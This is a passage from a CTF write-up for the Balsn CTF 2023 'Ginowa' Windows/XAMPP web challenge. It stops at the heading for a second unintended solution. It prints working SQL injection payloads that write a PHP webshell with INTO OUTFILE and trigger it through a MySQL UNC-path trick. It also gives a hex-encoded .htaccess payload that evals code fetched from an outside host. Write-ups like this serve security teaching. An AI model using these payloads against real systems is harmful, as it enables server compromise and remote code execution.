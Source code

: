 - [Ginowa](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2023/ginowa/)

### Solution

The idea of this challenge comes from a realworld case too.

#### Intended Solution 

step 1. write a webshell to webroot:

```
/index.php?id=-2%27union%2520select%25201,2,3,%27%3C%3fphp%2520chdir(%22C:/%22);shell_exec(%22.\\readflag_9a82cf0e37dd1b.exe%3Exampp\\meow.txt%22)%3b%3f%3E%27%2520into%2520outfile%2520%27c%3a/xampp/htdocs/kaibro123.php%27--%2520
```

step 2. use mysql trick (`load_file('//HOST@PORT/SOME_PATH')`) to send a http request to trigger webshell:

```
/index.php?id=-2%27union%2520select%25201,2,3,load_file(%27//localhost@8080/kaibro123.php%27)--%2520
```

Note: 
this trick is based on windows mysql and webclient service. more detail: [link](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

Note2: 
it seems like the windows defender was automatically activated during the ctf, so we might need to race it (sorry for the painful waf challenge...lol)

#### Unintended Solution

I apologize for not including some restrictions, so there are many unintended solution... 
And I didn't realize that the defender was turned on, so writing webshell would become very painful...(But it's still solvable)
Even so, I still really like some of the unintended solutions. These solutions have truly impressed me. 

Windows is really f**king hard 🫠

<br>

**Solution 1** - write a `.htaccess` file:

```
/index.php?id=<@urlencode_not_plus>0'%20or%201=1%20into%20outfile%20'C:/xampp/htdocs/.htaccess'%20FIELDS%20enclosed%20by%200x23%20lines%20terminated%20by%200x3c3f706870206576616c2866696c655f6765745f636f6e74656e74732827687474703a2f2f6f2e63616c312e636e2f702e7478742729293b3f3e0a7068705f76616c7565206175746f5f70726570656e645f66696c65202e68746163636573730d0a--%20x<@/urlencode_not_plus> HTTP/1.1
```

(by Crazyman)

<br>

**Solution 2** - read `readflag_[some random hex].exe` by windows shortname trick:
